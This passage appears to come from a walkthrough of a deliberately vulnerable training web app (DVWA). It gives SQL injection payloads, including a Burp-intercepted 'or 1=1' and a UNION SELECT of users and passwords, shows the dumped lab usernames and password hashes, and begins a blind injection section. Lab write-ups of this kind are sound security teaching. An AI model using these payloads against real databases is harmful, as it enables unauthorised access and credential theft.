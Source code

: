{% highlight sql %}
id=3 or 1 = 1&Submit=Submit intercepting with burp
{% endhighlight %}

High:

{% highlight sql %}
ID: 1' or 1 = 1 union select user,password from users  #
{% endhighlight %}

ID: 1' or 1 = 1 union select user,password from users  #

First name: admin
Surname: admin

ID: 1' or 1 = 1 union select user,password from users  #
First name: Gordon
Surname: Brown

ID: 1' or 1 = 1 union select user,password from users  #
First name: Hack
Surname: Me

ID: 1' or 1 = 1 union select user,password from users  #
First name: Pablo
Surname: Picasso

ID: 1' or 1 = 1 union select user,password from users  #
First name: Bob
Surname: Smith

ID: 1' or 1 = 1 union select user,password from users  #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' or 1 = 1 union select user,password from users  #
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' or 1 = 1 union select user,password from users  #
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' or 1 = 1 union select user,password from users  #
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' or 1 = 1 union select user,password from users  #
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99


#SQLi Blind

Low:

{% highlight sql %}
2' and 'a' = 'a
{% endhighlight %}
